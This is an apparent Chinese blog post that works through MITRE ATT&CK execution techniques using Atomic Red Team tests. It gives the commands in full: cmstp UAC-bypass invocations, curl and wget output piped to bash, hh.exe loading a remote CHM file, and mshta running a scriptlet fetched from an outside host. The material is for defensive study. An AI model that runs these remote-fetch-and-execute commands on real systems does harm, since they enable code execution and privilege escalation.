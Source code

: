 ```yaml
---
layout: post
title: 跟着ATT&CK学安全之execution
excerpt: "跟着ATT&CK学安全之execution"
categories: [ATT&CK]
comments: true
---
```

#### T1191 - CMSTP

平台:Windows
运行方式如下`cmstp.exe /s T1191.inf`

`cmstp.exe /s T1191_uacbypass.inf /au`

#### T1059 - Command-Line Interface

平台:macOS, CentOS, Ubuntu, Linux

运行如下命令
```bash
bash -c "curl -sS https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1059/echo-art-fish.sh | bash"
bash -c "wget --quiet -O - https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/Atomics/T1059/echo-art-fish.sh | bash"
```
#### T1223 - Compiled HTML File
运行如下命令
```
hh.exe D:\pycharmproject\atomic-red-team-master\atomics\T1223\src\T1223.chm
```
或者
```
hh.exe http://snappyzz.com/T1223.chm		#这个无法使用,正在解决中
```
#### T1170 - Mshta
```
mshta.exe javascript:a=(GetObject("script:http://snappyzz.com/mshta.sct")).Exec();close();
```
或者
```
mshta.exe vbscript:Execute("CreateObject(""Wscript.Shell"").Run(""C:\Windows\SysWOW64\calc.exe"")(window.close)")
```
#### T1086 - PowerShell
